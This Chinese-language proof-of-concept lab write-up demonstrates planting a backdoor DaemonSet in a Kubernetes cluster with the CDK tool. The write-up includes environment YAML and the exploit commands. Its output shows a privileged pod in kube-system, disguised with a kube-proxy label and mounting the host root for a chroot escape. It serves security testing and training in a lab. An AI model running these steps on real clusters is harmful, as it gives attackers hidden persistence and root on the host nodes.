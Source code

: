 # Kubernetes 部署后门 Daemonset

## 漏洞描述

DaemonSet 确保全部（或者某些）节点上运行一个 Pod 的副本。 当有节点加入集群时， 也会为他们新增一个 Pod 。 当有节点从集群移除时，这些 Pod 也会被回收。删除 DaemonSet 将会删除它创建的所有 Pod。

在集群内获取到一定的权限，需要对当前的权限进行持久化控制时，可利用 K8s Daemonset 资源的特性，创建一个 kube-system 命名空间下的 Daemonset 资源，进行持久化控制。

参考链接：

- https://kubernetes.io/zh-cn/docs/concepts/workloads/controllers/daemonset/
- https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-backdoor-daemonset
- https://github.com/cdk-team/CDK/blob/main/test/k8s_exploit_util/backdoor_daemonset.yaml
- https://github.com/Metarget/metarget

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f k8s_backdoor_daemonset.yaml
```

或直接通过 metarget 启动漏洞环境：

```shell
./metarget cnv install k8s_backdoor_daemonset
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `k8s-backdoor-daemonset` 的 pod：

```
kubectl get pods -n metarget
-----
NAME                     READY   STATUS    RESTARTS   AGE
k8s-backdoor-daemonset   1/1     Running   0          9m54s
```

![](images/Kubernetes%20部署后门%20Daemonset/image-20250422100649103.png)

## 漏洞复现

下载漏洞利用工具 [CDK](https://github.com/cdk-team/CDK)，将其传入 `k8s-backdoor-daemonset`pod 中：

```
kubectl cp cdk k8s-backdoor-daemonset:/ -n metarget
```

执行以下命令运行工具（该命令会在 `kubs-system` 空间下创建一个 daemonset 资源）：

```
kubectl exec -n metarget -it k8s-backdoor-daemonset -- chmod +x /cdk
kubectl exec -n metarget -it k8s-backdoor-daemonset -- /cdk run k8s-backdoor-daemonset default ubuntu "touch /tmp/awesome_poc ; sleep 10000"
-----
2025/04/22 02:11:42 getting K8s api-server API addr.
	Find K8s api-server in ENV: https://10.96.0.1:443
2025/04/22 02:11:42 trying to deploy daemonset with image:ubuntu to k8s-app:kube-proxy
2025/04/22 02:11:42 api-server response:
{"kind":"DaemonSet","apiVersion":"apps/v1","metadata":{"name":"cdk-backdoor-daemonset","namespace":"kube-system","uid":"ffdf2f2e-e4ce-4938-8ed9-ee7b80753381","resourceVersion":"4619","generation":1,"creationTimestamp":"2025-04-22T02:11:42Z","labels":{"k8s-app":"kube-proxy"},"annotations":{"deprecated.daemonset.template.generation":"1"},"managedFields":[{"manager":"Go-http-client","operation":"Update","apiVersion":"apps/v1","time":"2025-04-22T02:11:42Z","fieldsType":"FieldsV1","fieldsV1":{"f:metadata":{"f:annotations":{".":{},"f:deprecated.daemonset.template.generation":{}},"f:labels":{".":{},"f:k8s-app":{}}},"f:spec":{"f:revisionHistoryLimit":{},"f:selector":{},"f:template":{"f:metadata":{"f:labels":{".":{},"f:k8s-app":{}}},"f:spec":{"f:containers":{"k:{\"name\":\"cdk-backdoor-pod\"}":{".":{},"f:args":{},"f:image":{},"f:imagePullPolicy":{},"f:name":{},"f:resources":{},"f:securityContext":{".":{},"f:capabilities":{".":{},"f:add":{}},"f:privileged":{}},"f:terminationMessagePath":{},"f:terminationMessagePolicy":{},"f:volumeMounts":{".":{},"k:{\"mountPath\":\"/host-root\"}":{".":{},"f:mountPath":{},"f:name":{}}}}},"f:dnsPolicy":{},"f:hostNetwork":{},"f:hostPID":{},"f:restartPolicy":{},"f:schedulerName":{},"f:securityContext":{},"f:terminationGracePeriodSeconds":{},"f:volumes":{".":{},"k:{\"name\":\"host-volume\"}":{".":{},"f:hostPath":{".":{},"f:path":{},"f:type":{}},"f:name":{}}}}},"f:updateStrategy":{"f:rollingUpdate":{".":{},"f:maxSurge":{},"f:maxUnavailable":{}},"f:type":{}}}}}]},"spec":{"selector":{"matchLabels":{"k8s-app":"kube-proxy"}},"template":{"metadata":{"creationTimestamp":null,"labels":{"k8s-app":"kube-proxy"}},"spec":{"volumes":[{"name":"host-volume","hostPath":{"path":"/","type":""}}],"containers":[{"name":"cdk-backdoor-pod","image":"ubuntu","args":["/bin/sh","-c","touch /tmp/awesome_poc ; sleep 10000"],"resources":{},"volumeMounts":[{"name":"host-volume","mountPath":"/host-root"}],"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"IfNotPresent","securityContext":{"capabilities":{"add":["NET_ADMIN","SYS_ADMIN","SYS_PTRACE","AUDIT_CONTROL","MKNOD","SETFCAP"]},"privileged":true}}],"restartPolicy":"Always","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","hostNetwork":true,"hostPID":true,"securityContext":{},"schedulerName":"default-scheduler"}},"updateStrategy":{"type":"RollingUpdate","rollingUpdate":{"maxUnavailable":1,"maxSurge":0}},"revisionHistoryLimit":10},"status":{"currentNumberScheduled":0,"numberMisscheduled":0,"desiredNumberScheduled":0,"numberReady":0}}
```

![](images/Kubernetes%20部署后门%20Daemonset/image-20250422101155770.png)

验证部署结果：

```
kubectl get ds -n kube-system | grep cdk
-----
cdk-backdoor-daemonset   1         1         1       1            1           <none>                   74s
```

![](images/Kubernetes%20部署后门%20Daemonset/image-20250422101313343.png)

CDK 将宿主机根目录挂载到了 [/host-root](https://github.com/cdk-team/CDK/blob/main/test/k8s_exploit_util/backdoor_daemonset.yaml)，此时我们已经获取了宿主机权限：

```
kubectl exec -n kube-system -it cdk-backdoor-daemonset-4jx5r -- /bin/bash
root@minikube:/# ls -al /tmp
total 8
drwxrwxrwt 1 root root 4096 Apr 22 02:11 .
drwxr-xr-x 1 root root 4096 Apr 22 02:52 ..
-rw-r--r-- 1 root root    0 Apr 22 02:11 awesome_poc
root@minikube:/# chroot /host-root
# cat /etc/hostname
ubuntu
```

![](images/Kubernetes%20部署后门%20Daemonset/image-20250422111055446.png)

## 环境复原

```
kubectl delete daemonset cdk-backdoor-daemonset -n kube-system
kubectl delete -f k8s_backdoor_daemonset.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[k8s_backdoor_daemonset.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/k8s_backdoor_daemonset.yaml)

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: k8s-backdoor-daemonset
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-backdoor-daemonset
rules:
- apiGroups:
  - apps
  resources:
  - daemonsets
  verbs:
  - create
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: k8s-backdoor-daemonset
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-backdoor-daemonset
subjects:
- kind: ServiceAccount
  name: k8s-backdoor-daemonset
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: k8s-backdoor-daemonset
  namespace: metarget
spec:
  serviceAccountName: k8s-backdoor-daemonset
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```
